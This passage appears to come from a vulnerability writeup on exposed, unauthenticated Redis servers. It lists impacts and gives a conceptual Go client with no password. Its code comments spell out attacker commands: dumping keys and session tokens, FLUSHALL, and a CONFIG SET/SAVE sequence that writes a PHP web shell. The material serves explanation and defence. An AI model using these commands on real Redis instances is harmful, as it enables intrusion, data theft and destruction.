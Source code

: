   * Data exfiltration (sensitive data, user information).
  * Data manipulation or corruption.
  * Denial of Service (DDoS) by flushing Redis data or exhausting resources.
  * Remote Code Execution (RCE) on the server hosting Redis.
  * Establishment of persistence (e.g., via cron jobs, SSH keys).
  * Lateral movement within the network.
  * Integration into botnets (e.g., cryptominers, DDoS bots).

### Affected Components or Files

  * Redis server configuration file (`redis.conf`).
  * Golang application code that connects to and interacts with Redis, particularly connection strings or client configurations.
  * System files on the server where Redis is running (e.g., `/etc/crontab`, `~/.ssh/authorized_keys`, web server root directories).

### Vulnerable Code Snippet (Conceptual - Golang)

While the core vulnerability lies in the Redis server configuration, the Golang application's interaction often *assumes* a secure Redis environment. A Golang application might connect like this:

```go
package main

import (
	"context"
	"fmt"
	"log"
	"time"

	"github.com/go-redis/redis/v8" // Popular Redis client for Go
)

func main() {
	// Vulnerable: Connecting to an unauthenticated/exposed Redis instance
	// In a real scenario, this 'endpoint' would be publicly accessible
	rdb := redis.NewClient(&redis.Options{
		Addr:     "public_ip_or_domain:6379", // Publicly accessible Redis
		Password: "",                         // No password
		DB:       0,                          // Default DB
	})

	ctx, cancel := context.WithTimeout(context.Background(), 5*time.Second)
	defer cancel()

	pong, err := rdb.Ping(ctx).Result()
	if err != nil {
		log.Fatalf("Could not connect to Redis: %v", err)
	}
	fmt.Println("Redis connected:", pong)

	// Example of sensitive data being stored
	err = rdb.Set(ctx, "user:123:session_token", "super_secret_token_123", 0).Err()
	if err != nil {
		log.Fatalf("Could not set value: %v", err)
	}
	fmt.Println("Set session token.")

	// An attacker could connect to 'public_ip_or_domain:6379' and issue commands like:
	// `KEYS *` to list all keys
	// `GET user:123:session_token` to retrieve the session token
	// `FLUSHALL` to delete all data
	// `CONFIG SET dir /tmp` and `CONFIG SET dbfilename shell.php` and `SAVE`
	// followed by `SET 1 "\n<?php system($_GET['cmd']); ?>\n"` if web server is on /tmp
}
```